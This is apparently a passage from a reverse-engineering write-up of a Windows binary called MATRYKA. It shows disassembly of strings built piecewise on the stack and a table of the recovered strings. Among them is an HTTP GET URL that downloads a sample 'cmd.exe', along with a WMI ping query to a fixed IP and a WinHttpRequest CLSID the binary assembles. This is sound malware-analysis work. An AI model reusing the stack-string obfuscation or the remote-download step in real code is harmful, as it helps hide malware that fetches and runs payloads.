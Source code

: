 ### String things

Looking around the disassembly, we can spot some strings being written to memory piecewise, 
with a run like:
```
14000250B mov     [rbp-6Ch], ax                 ; G.   (0047h)
...
140002517 mov     dword ptr [rbp-80h], 44005Ch  ; \.D.
...
140002569 mov     dword ptr [rbp-7Ch], 760065h  ; e.v.
140002570 mov     dword ptr [rbp-78h], 630069h  ; i.c.
140002577 mov     dword ptr [rbp-74h], 5C0065h  ; e.\.
14000257E mov     dword ptr [rbp-70h], 4E0043h  ; C.N.

```
Building out ```L"\\Device\\CNG"```

Searching the disassembly text for the regular expression ```[0-9A-F]{2}00[0-9A-F]{2}h```
and setting debugger breakpoints near the end of each construction, we can find the following being built:
```
Address    In Call     String
140001CA6  MATRYKA_14   L"OleAut32.dll"
140001D80  MATRYKA_13   L"Combase.dll"
140001FDA  MATRYKA_12   L"GET"
140001FFB  MATRYKA_12   L"https://samples.vx-underground.org/root/Samples/cmd.exe"
140002498  MATRYKA_f    L"LOCALAPPDATA"
14000250B  MATRYKA_f    L"\\Device\\CNG"
140002684  MATRYKA_f    L"?\\\\?"
140002AEC  MATRYKA_18   L"root\\cimv2"
140002B68  MATRYKA_18   L"WQL"
140002B82  MATRYKA_18   L"SELECT * FROM Win32_PingStatus WHERE Address=\"172.67.136.136\""
140002CD8  MATRYKA_18   L"StatusCode"
```

We can't find the COM CLSIDs and UUIDs that way since they're not widechar strings, 
but we do know where they're eventually going to get used:
```
CoCreateInstance   rcx => 16-byte object CLSID
                    r9 => 16-byte interface UUID
```
So we can record writes and backtrack similar to what we did to initially examine loop writes earlier.

What we find is that the CLSID for **WinHttpRequest** {2087c2f4-2cef-4953-a8ab-66779b670495} 
is constructed in **MATRYKA_12**:
```
140001EBC mov     dword ptr [rsp+60h], 2087C2F4h
140001EC4 xor     ecx, ecx
140001EC6 mov     dword ptr [rsp+64h], 49532CEFh
140001ECE mov     dword ptr [rsp+68h], 7766ABA8h
140001ED6 mov     dword ptr [rsp+6Ch], 9504679Bh
```
